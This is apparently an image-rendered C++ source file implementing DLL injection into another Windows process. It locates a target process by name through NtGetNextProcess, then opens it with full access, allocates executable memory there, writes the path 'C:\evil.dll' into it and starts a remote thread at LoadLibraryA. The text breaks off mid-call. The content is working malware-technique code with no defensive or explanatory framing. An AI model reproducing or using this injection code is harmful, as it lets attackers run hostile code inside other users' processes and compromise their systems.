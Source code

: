 ```cpp
#pragma comment(lib, "ntdll.lib")
#pragma comment(lib, "shlwapi.lib")

char evilDLL[] = "C:\\evil.dll";
unsigned int evilLen = sizeof(evilDLL) + 1;

typedef NTSTATUS (NTAPI * fNtGetNextProcess)(
  _In_ HANDLE ProcessHandle,
  _In_ ACCESS_MASK DesiredAccess,
  _In_ ULONG HandleAttributes,
  _In_ ULONG Flags,
  _Out_ PHANDLE NewProcessHandle
);

int findMyProc(const char * procname) {
  int pid = 0;
  HANDLE current = NULL;
  char procName[MAX_PATH];

  // resolve function address
  fNtGetNextProcess myNtGetNextProcess = 
  (fNtGetNextProcess) GetProcAddress(GetModuleHandle("ntdll.dll"), "NtGetNextProcess");

  // loop through all processes
  while (!myNtGetNextProcess(current, MAXIMUM_ALLOWED, 0, 0, &current)) {
    GetProcessImageFileNameA(current, procName, MAX_PATH);
    if (lstrcmpiA(procname, PathFindFileName((LPCSTR) procName)) == 0) {
      pid = GetProcessId(current);
      break;
    }
  }

  return pid;
}

int main(int argc, char* argv[]) {
  int pid = 0; // process ID
  HANDLE ph; // process handle
  HANDLE rt; // remote thread
  LPVOID rb; // remote buffer
  pid = findMyProc(argv[1]);
  printf("%s%d\n", pid > 0 ? "process found at pid = " : 
  "process not found. pid = ", pid);

  HMODULE hKernel32 = GetModuleHandle("kernel32");
  VOID *lb = GetProcAddress(hKernel32, "LoadLibraryA");

  // open process
  ph = OpenProcess(PROCESS_ALL_ACCESS, FALSE, DWORD(pid));
  if (ph == NULL) {
    printf("OpenProcess failed! exiting...\n");
    return -2;
  }

  // allocate memory buffer for remote process
  rb = VirtualAllocEx(ph, NULL, evilLen, (MEM_RESERVE | MEM_COMMIT),
   PAGE_EXECUTE_READWRITE);

  // "copy" evil DLL between processes
  WriteProcessMemory(ph, rb, evilDLL, evilLen, NULL);

  // our process start new thread
  rt = CreateRemoteThread(ph, NULL, 0, (LPTHREAD_START_ROUTINE)lb, rb, 0, 
```